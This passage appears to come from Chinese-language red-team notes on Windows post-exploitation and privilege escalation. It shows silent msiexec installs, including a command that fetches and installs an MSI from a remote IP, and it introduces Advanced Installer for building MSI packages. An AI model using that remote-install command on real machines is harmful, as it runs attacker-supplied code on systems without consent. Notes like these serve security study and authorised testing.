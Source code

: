 隐藏界面安装
```
msiexec /q /i xxx.msi
```

远程加载安装
```
msiexec /q /i http://192.168.101.146/test.msi    (文件后缀名可以不为.msi)
```

**Advanced Installer**

Advanced Installer 是一个 Windows Installer 的 MSI 安装包的制作工具, 下载地址: https://www.advancedinstaller.com/download.html

![](../../../../assets/img/Security/RedTeam/后渗透/权限提升/3.png)
